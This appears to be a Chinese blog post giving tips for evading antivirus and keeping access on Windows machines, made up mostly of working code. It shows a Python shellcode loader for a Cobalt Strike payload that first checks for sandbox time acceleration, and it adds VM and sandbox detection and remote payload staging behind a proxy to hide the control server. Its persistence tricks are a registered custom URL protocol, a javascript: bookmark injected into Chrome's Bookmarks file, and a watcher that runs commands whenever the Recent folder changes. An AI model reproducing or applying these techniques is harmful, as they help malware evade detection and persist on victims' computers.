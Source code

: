 ```yaml
---
title: 免杀小思路
published: 2025-02-25
description: '关于免杀与权限维持的思路'
image: 'https://haowallpaper.com/link/common/file/previewFileImg/15758358777205056'
tags: [免杀,开发]
category: '网络安全'
draft: false 
lang: ''
---
```


首先我们都知道，现在沙箱分析主要分为以下几步
- 行为检测
- 静态分析
- 动态分析
一般来说，动态分析会有时间加速，所以sleep(60)这样的免杀方法是不现实的，我们首先就是要检测他是否有时间加速。
# 1.动态(时间加速、沙箱/虚拟机检测)

先cs生成个payload，然后开始写代码
```python
import time
import ctypes

buf = b"\x90\x90\x90\x90xxxx" 

def check_time():
    start_time = time.time()
    time.sleep(5)
    end_time = time.time()
    elapsed_time = end_time - start_time
    if elapsed_time < 4.9:
        return False
    return True

def execute_shellcode(shellcode):
    shellcode_buffer = ctypes.create_string_buffer(shellcode)
    ctypes_buffer = ctypes.cast(shellcode_buffer, ctypes.CFUNCTYPE(ctypes.c_void_p))
    ctypes_buffer()

if __name__ == "__main__":
    if check_time():
        execute_shellcode(buf)
    else:
        print("检测到沙箱环境,不执行shellcode")
```
1. **check_time()**: 这个函数用于检测程序运行的时间。如果时间差小于预期值（4.9秒），则可能处于沙箱环境。
2. **execute_shellcode(shellcode)**: 这个函数用于执行传入的shellcode。使用`ctypes`库来分配内存并将shellcode注入到内存中执行。
也就是说原理就是检测是否有时间差
不过，有些沙箱没有时间加速，我们还是需要进行沙箱/虚拟机检测
```python
def is_vm_or_sandbox():
    return any(os.path.exists(path) for path in [
        "C:\\analysis\\sandbox.exe",
        "C:\\sandbox\\sandbox.exe",
    ]) or any(os.system(f"tasklist /FI \"IMAGENAME eq {proc}\" 2>nul | find /I \"{proc}\" >nul") == 0
              for proc in ["vmtoolsd.exe", "vboxservice.exe"]) or os.cpu_count() < 2
```
这个sandbox.exe就是查看它进程，cpu_count()是检测cpu数量，太少就可以`sys.exit(0)`了
对于用户名，我们可以通过`%USERNAME%`来获取
![](免杀小思路/image-20250126153132979.png)
这样，我们得到了用户名，就可以判断用户名是否为沙箱的用户名，若是则退出

# 2.静态免杀

对于静态免杀，我们可以把shellcode、免杀文件等分开放，思维导图如下
![](免杀小思路/image-20250126153601989.png)
这样，我们本地只留一个loader，其他都在公网上，但是如果被抓出来地址什么的，我们的远控就会被扒的底裤也不剩
我们这时候就可以设置一个代理，把我们的公网IP映射到127.0.0.1：
```python
import requests

proxy = {
    "http": "http://x.x.x.x:3333"
}
url = "http://127.0.0.1:3333" 
response = requests.get(url, proxies=proxy)
print(response.text)
```
这段代码留在loader
那么这样之后，我们的免杀就做到了这么几个功能：
1. 时间加速检测
2. 沙箱检测
3. 动态注入payload
4. 代理
# 3.权限维持

## 注册表配合书签

通常权限维持都是定时(比如10分钟)连接C2服务器，不过依然是一抓到IP就炸了
不过我们都知道，edge、chrome这样的主流浏览器，它的书签都可以解析js
![](免杀小思路/image-20250126155402295.png)
![](免杀小思路/image-20250126155435240.png)
这里我们就可以使用注册表实现rce了
```
reg add "HKEY_CLASSES_ROOT\knight" /ve /d "URL:MyCalc Protocol" /f
reg add "HKEY_CLASSES_ROOT\knight" /v "URL Protocol" /d "" /f
reg add "HKEY_CLASSES_ROOT\knight\rce" /f
reg add "HKEY_CLASSES_ROOT\knight\rce\rrr" /f
reg add "HKEY_CLASSES_ROOT\knight\rce\rrr\command" /ve /d "\"C:\\Windows\\System32\\calc.exe\"" /f
```
![](免杀小思路/image-20250126160512428.png)
然后结合上面的书签，js打开knight://open
```
javascript:window.open('https://www.hdsec.cn/', '_blank'); setTimeout(function() { window.location.href = 'knight://open'; }, 1);
```
![](免杀小思路/image-20250126161516586.png)
这样，我们就从一个书签开始，实现RCE
书签的路径自行百度，然后下面是增加书签的代码
```python
import json
import os

chrome_bookmarks_path = os.path.expanduser("~") + "/AppData/Local/Google/Chrome/User Data/Default/Bookmarks"
new_bookmark = {
    "name": "Open Baidu and RCE",
    "type": "url",
    "url": "javascript:window.open('https://www.hdsec.cn', '_blank'); setTimeout(function() { window.location.href = 'knight://open'; }, 1);"
}
with open(chrome_bookmarks_path, "r", encoding="utf-8") as file:
    bookmarks_data = json.load(file)
bookmarks_bar = None
for item in bookmarks_data["roots"]:
    if item == "bookmark_bar":
        bookmarks_bar = bookmarks_data["roots"][item]
        break
if bookmarks_bar:
    if "children" not in bookmarks_bar:
        bookmarks_bar["children"] = []
    bookmarks_bar["children"].append(new_bookmark)
with open(chrome_bookmarks_path, "w", encoding="utf-8") as file:
    json.dump(bookmarks_data, file, indent=4)
```
这样当他打开hdsec.cn的时候就会弹计算机
下面是添加注册表的代码
```python
import winreg

root_key = winreg.HKEY_CLASSES_ROOT
base_path = r"knight"
url_protocol_path = base_path
rce_path = base_path + r"\rce"
rrr_path = rce_path + r"\rrr"
command_path = rrr_path + r"\command"
key = winreg.CreateKey(root_key, base_path)
winreg.SetValue(key, "", winreg.REG_SZ, "URL:MyCalc Protocol")
winreg.CloseKey(key)
key = winreg.OpenKey(root_key, url_protocol_path, 0, winreg.KEY_WRITE)
winreg.SetValueEx(key, "URL Protocol", 0, winreg.REG_SZ, "")
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, rce_path)
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, rrr_path)
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, command_path)
winreg.SetValue(key, "", winreg.REG_SZ, r"C:\Windows\System32\calc.exe")
winreg.CloseKey(key)
```
或者我们远程调用并导入reg文件
```
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\knight]
@="URL:MyCalc Protocol"
"URL Protocol"=""

[HKEY_CLASSES_ROOT\knight\rce]

[HKEY_CLASSES_ROOT\knight\rce\rrr]

[HKEY_CLASSES_ROOT\knight\rce\rrr\command]
@="\"C:\\Windows\\System32\\calc.exe\""
```
之后像上面那样把公网代理到127.0.0.1或其他IP，从127.0.0.1下载reg

## 最近打开的项目

众所周知，我们每打开一个项目，就会出现x.lnk，这个是windows默认启用的(笔者因为美观原因关掉了)
![](免杀小思路/image-20250126162246931.png)
这个x.lnk，路径是`C:\Users\administrator\AppData\Roaming\Microsoft\Windows\Recent\`
获取用户名的方法上面也有，就是%USERNAME%
那么我们就可以在免杀中写，持续监听这个目录，创建了文件就执行某命令，也就是说对文件有增删查改就执行某命令
```python
import os, time, subprocess
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler

RECENT_DIR = os.path.join("C:/Users", os.environ["USERNAME"], "AppData", "Roaming", "Microsoft", "Windows", "Recent")
observer = Observer()
observer.schedule(
    type("RecentHandler", (FileSystemEventHandler,), {"on_created": lambda self, event: subprocess.Popen("calc")})(),
    path=RECENT_DIR,
    recursive=False
)
observer.start()
try:
    while True: time.sleep(1)
except KeyboardInterrupt:
    observer.stop()
observer.join()
```
这个路径不仅限于recent，还可以换成别的，你要是愿意换成C D盘什么的也可以
